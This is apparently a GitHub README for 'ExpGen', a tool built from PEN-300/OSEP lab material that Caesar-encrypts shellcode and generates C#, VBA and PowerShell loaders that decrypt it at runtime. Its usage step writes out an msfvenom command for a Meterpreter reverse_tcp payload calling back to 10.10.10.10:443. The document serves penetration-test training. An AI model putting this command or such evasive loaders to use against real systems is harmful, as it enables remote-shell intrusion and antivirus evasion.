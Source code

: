 # ExpGen
Exploit Generator tool for OSEP put together by me using PEN-300 lab contents.

It does a simple caesar cipher encryption of the bytes and decrypt them during runtime. It supports CSharp, VBA and PS.

# Usage
1. Generate a meterpreter payload in raw format. Place it inside the payload folder.
  - msfvenom -p windowsx/64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f raw -o reversex64.bin
2. python3 gen.py

The python script will read all files as bytes inside the payload folder and generate the code based on the templates found inside the template folder.

The output will be inside the code folder inside ps/vba/cs folder respectively for each type.
